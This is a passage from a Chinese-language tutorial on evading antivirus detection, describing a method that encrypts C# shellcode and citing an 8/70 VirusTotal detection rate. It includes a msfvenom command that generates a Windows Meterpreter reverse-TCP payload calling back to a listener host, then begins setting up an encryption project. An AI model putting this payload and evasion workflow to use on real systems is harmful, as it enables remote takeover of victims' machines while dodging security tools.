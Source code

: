 ![68822bd33f1e7acf939aaa171224b8a3](images/2020.03-bypass-04/5.png)

## 2.2 方法2：C#+加密处理shellcode免杀(VT免杀率8/70)

先用msf生成基于c#的shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333 -f csharp -o payload.txt
```

在vs2017中新建C#加密项目

![6097b902e05b60146389d0e0dca55f43](images/2020.03-bypass-04/2.png)